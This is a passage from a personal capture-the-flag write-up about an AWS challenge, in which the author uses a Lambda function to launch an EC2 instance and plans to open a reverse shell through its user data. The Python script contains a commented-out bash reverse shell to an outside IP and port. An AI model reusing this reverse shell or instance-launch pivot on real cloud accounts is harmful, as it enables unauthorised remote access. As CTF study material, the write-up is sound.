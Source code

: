 Side note: Right now I'm 650+ lines in and it's 12am and I need to wake up early tomorrow. So I'm gonna start skipping a lot of random hurdles I faced. But it did take me a day or 2 from this point on to solve the challenge.  

Ok let's take a step back to analyze what we need to do. We now know

1. The challenge description and notes point towards spinning up an EC2 instance.
2. We have to use a lambda function to spin up and EC2 instance.
3. There's something that lies in the VPC which we need to access via the EC2. 
4. We do not have permissions to use AWS KMS which is required to generate and use keys to ssh into EC2 instances. 
5. Scouring the internet for writeups and docs for days did tell us that we can upload user scripts via --user-data which can help us open a reverse shell. 

With some googling around to find out how to write and deploy a lambda function, I managed to come up with the following script to spin up an EC2 instance. I purposely left in all the random stuff I tried as well. I will explain them shortly.

```python
def lambda_handler(event, context):
    import boto3
    region = 'ap-southeast-1'
    client = boto3.client('ec2', region_name=region)
    # with open('/tmp/shell.sh', 'w') as f:
    #     f.write('#!/bin/bash\n')
    #     f.write('/bin/bash -l > /dev/tcp/35.209.142.185/12321 0<&1 2>&1')
        # f.close()
    import urllib3
    http = urllib3.PoolManager()
    response = client.run_instances(
        ImageId='ami-0aade705feac64cc5',
        TagSpecifications=[{
            'ResourceType':
            'instance',
            'Tags': [{
                'Key': 'agent',
                'Value': 'user-b7def4a2c289478ba30912da680787a7'
            }]
        }],
        InstanceType="t2.micro",
        MaxCount=1,
        MinCount=1,
        UserData='file:///tmp/shell.sh',
        # SecurityGroupIds=['sg-0521a956628208ccc'],
        IamInstanceProfile={
            'Arn':
            'arn:aws:iam::051751498533:instance-profile/ec2_agent_instance_profile'
            # 'Name':'tisc-test'
        },
        NetworkInterfaces=[{
            'AssociatePublicIpAddress': True,
            'DeviceIndex': 0,
            # 'Ipv6AddressCount': 1,
            'SubnetId': 'subnet-0aa6ecdf900166741',

        }])
    print(response)
    lam = boto3.client('lambda', region_name=region)
    # this turned out to be useless
    response = lam.get_function(FunctionName='cat-service')
    print('hello') # debug statement heh
    # the response contains a link to download the function which is just a script template to spin up ec2 instances. 
    print(str(response))
```
